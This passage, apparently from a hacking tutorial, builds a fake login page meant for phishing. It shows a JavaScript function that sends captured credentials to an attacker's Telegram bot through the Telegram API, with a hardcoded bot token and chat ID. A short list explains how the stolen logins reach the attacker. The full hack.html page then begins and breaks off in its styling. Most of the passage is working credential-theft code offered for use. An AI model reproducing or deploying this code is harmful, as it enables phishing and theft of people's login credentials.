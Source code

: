 The captured credentials are sent via Telegram bot using a simple `GET` request to the Telegram API:     

```js
function sendToTelegram(message) {
  var chatId = '5547299598'; // chat id for Telegram bot
  var botToken = '7725786727:AAEuylKfQgTg5RBMeXwyk9qKhcV5kULP_po'; // Telegram bot API token
  var apiUrl = `https://api.telegram.org/bot${botToken}/sendMessage`;

  var xhr = new XMLHttpRequest();
  xhr.open("POST", apiUrl, true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

  // prepare the POST data in the proper format
  var postData = `chat_id=${chatId}&text=${encodeURIComponent(message)}`;

  // send the POST request with the message
  xhr.send(postData);
}
```

How it works?
- user enters credentials on the fake login page.    
- JavaScript intercepts the form submission and collects the data.    - the data is sent via Telegram bot through an API call.     
- the attacker can now read the stolen credentials from the Telegram bot chat.     

So, full source code looks like this: `hack.html`:    

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Login - Meow Hacking Portal</title>
  <style>
    body {
      font-family: Arial, sans-serif;
      background: linear-gradient(to right, #00c6ff, #0072ff); /* Smooth blue gradient */
      padding: 20px;
      height: 100vh;
      display: flex;
      justify-content: center;
      align-items: center;
    }
    .login-form {
      background-color: #fff;
      padding: 30px;
      border-radius: 8px;
      box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
      width: 300px;
    }
    .login-form input {
      width: 100%;
      padding: 10px;
      margin: 10px 0;
      border: 1px solid #ccc;
      border-radius: 5px;
    }
    .login-form button {
      padding: 10px 20px;
      background-color: #007bff;
      color: white;
      border: none;
      border-radius: 5px;
```